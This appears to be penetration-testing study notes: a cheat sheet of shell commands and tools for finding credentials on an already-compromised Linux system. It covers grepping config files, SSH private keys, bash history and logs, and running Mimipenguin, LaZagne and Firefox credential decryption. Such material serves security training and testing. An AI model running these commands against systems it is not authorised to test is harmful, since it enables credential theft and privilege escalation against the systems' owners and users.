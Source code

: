 

> Hunting for credentials is one of the first steps once we have access to the system. These low-hanging fruits can give us elevated privileges within seconds or minutes. Among other things, this is part of the local privilege escalation process that we will cover here. However, it is important to note here that we are far from covering all possible situations and therefore focus on the different approaches.

---
#### Configuration Files

```
$ for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

##### Credentials in Configuration Files

```
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

#bashscripting 
#### Databases

```
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

#database
#### Notes

```
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

#bashscripting
#### Scripts

```
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

#### Cronjobs

```
$ cat /etc/crontab
```

```
$ ls -la /etc/cron.*/
```

#crontab
#### SSH Keys

```
$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```


```
$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

#ssh 


#### Bash History

```
$ tail -n5 /home/*/.bash*
```

#bashscripting #history

#### Logs

```
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

#logs #bashscripting 

#### Memory - Mimipenguin

```
$ sudo python3 mimipenguin.py
```

```
$ sudo bash mimipenguin.sh
```

#python #bash

#### Memory - LaZagne

```
$ sudo python2.7 laZagne.py all
```

```
$ python3 laZagne.py browsers
```

#lazagne #browser 

#### Firefox Stored Credentials

```
$ ls -l .mozilla/firefox/ | grep default 
```

```
$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#firefox #browser

#### Decrypting Firefox Credentials

```
$ python3.9 firefox_decrypt.py
```

#firefox #browser 